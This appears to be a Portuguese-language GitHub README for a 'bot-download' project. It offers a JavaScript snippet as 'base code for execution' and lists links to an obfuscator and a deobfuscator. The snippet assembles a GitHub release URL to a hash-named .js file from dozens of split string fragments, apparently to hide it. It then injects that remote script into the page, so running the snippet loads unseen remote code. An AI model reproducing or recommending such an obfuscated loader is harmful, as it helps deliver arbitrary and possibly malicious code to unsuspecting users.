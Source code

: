 # bot-download

Código base para execução.

```js
var ronze = document.createElement('script');
ronze.src = "h" + "tt" + "ps" + ":" + "/" + "/" + "git" + "hub" + "." + "com" + "/" + "T" + "r" + "o" + "n" + "i" + "P" + "M" + "/" + "bot" + "-" + "down" + "load" + "/" + "re" + "leases" + "/" + "down" + "load" + "/" + "v1.0" + "/" + "8bde24" + "d932352" + "eb7b1" + "deb2d5c" + "2214a342e" + "28af4c1" + "acbdb" + "37b69" + "fac282a" + "243518" + "." + "js";
document.getElementsByTagName('head')[0].appendChild(ronze);
```


Sites úteis:
   - https://obfuscator.io/             : Adicionar obfuscação.
   - https://lelinhtinh.github.io/de4js/: Remover obfuscação.
